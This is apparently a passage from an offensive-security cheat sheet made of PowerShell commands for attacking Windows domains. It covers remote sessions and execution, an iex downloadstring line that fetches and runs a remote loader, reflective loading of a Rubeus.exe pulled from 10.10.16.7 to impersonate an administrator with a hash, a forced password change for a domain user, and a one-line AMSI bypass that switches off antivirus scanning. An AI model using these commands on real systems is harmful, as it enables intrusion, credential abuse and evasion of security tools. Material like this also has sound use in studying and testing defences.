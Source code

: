 ##### Enter Session

```powershell
Enter-PSSession $sess
```

##### Remote Copy

```powershell
Copy-Item -Path C:\Users\pubilc\tmp.ps1 -Destination 'C:\Users\public\tmp.ps1 -ToSession $sess
```

##### Remote exec

```powershell
invoke-Command -ScriptBlock {whoami} -Session $sess
```

##### Sharploader

```powershell
Invoke-SharpEncrypt -file C:\Path\to\file.exe -password SuperDumperStrongPassword -outfile C:\Path\to\file.enc

iex(new-object net.webclient).downloadstring('http://ip:port/invoke-sharploader.ps1');invoke-sharploader -location http://ip:port/program.enc -password SuperDumperStrongPassword -noArgs`
```

##### Load Assembly

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("s4u /user:web01$ /rc4:1d77f43d9604e79e5626c6905705801e /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())
```

##### Covert & Change passwd

```powershell
$remote = New-Object System.Management.Automation.PSCredential (“DOMAIN\USER”, (ConvertTo-SecureString “PASSWORD” -AsPlainText -Force)) 
$creds = ConvertTo-SecureString 'PasswordRulon123!' -AsPlainText -Force 
Set-DomainUserPassword -Identity USER -AccountPassword $creds -Credential $remote -Verbose 
```

* * *

# Antivirus

##### AMSI

```powershell
(([Ref].Assembly.gettypes() | ? {$_.Name -like "Amsi*utils"}).GetFields("NonPublic,Static") | ? {$_.Name -like "amsiInit*ailed"}).SetValue($null,$true)
```
